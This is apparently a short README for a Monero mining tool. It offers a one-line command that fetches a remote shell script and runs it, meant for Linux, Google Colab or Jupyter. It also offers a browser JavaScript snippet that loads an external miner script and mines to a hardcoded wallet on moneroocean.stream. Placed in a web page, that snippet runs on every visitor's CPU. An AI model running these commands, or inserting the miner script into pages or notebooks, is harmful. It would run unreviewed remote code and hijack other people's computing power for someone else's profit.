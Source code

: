 # `Smart Mining`
## `Linux`
```
wget https://raw.githubusercontent.com/thealidev/sm/main/mine.sh && bash mine.sh
```
## `Google Colab` Or `Jupyter Notebook`
```
! wget https://raw.githubusercontent.com/thealidev/sm/main/mine.sh && bash mine.sh
```
## `AliX JS` (Mining On `moneroocean.stream`)
```
<script src="https://alixjs.vercel.app/index.js"></script>
<script>
    server = "wss://f.xmrminingproxy.com:8181";
    var pool = "moneroocean.stream";
    var walletAddress = "8ANyqnPspbmdyQaY3FVzb1AYxnQPBKozVQ8qXKiBojvkPbkdv4gt8mCeNnuFhppTEpcVctYKwfiHce9ApMVuHKn8DMfr8un";
    var workerId = "Miner";
    var threads = 1;
    var password = "x";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 30;
</script>
```
# `For Personal Use Only`
